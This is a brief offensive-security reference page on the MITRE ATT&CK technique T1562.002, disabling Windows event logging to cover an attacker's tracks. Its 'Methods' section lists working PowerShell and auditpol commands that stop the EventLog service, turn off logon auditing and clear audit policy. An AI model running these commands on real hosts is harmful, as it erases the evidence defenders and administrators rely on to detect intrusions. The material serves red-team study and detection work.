 ```yaml
---
description: MITRE ATT&CK, Defense Evasion, Sub-technique T1562.002
---
```


# Disable Windows Event Logging

Disabling Windows event logging allows for an attacker to operate on a compromised host while leaving minimal evidence behind.&#x20;

### Methods

```powershell
# Disable the EventLog service with PowerShell:
Stop-Service -Name EventLog

# Disable auditing for the Account Logon category:
auditpol /set /category:"Account Logon" /success:disable /failure:disable

# Clear the audit policy
auditpol /clear /y
auditpol /remove /allusers


```

### References

{% embed url="https://attack.mitre.org/techniques/T1562/002/" %}
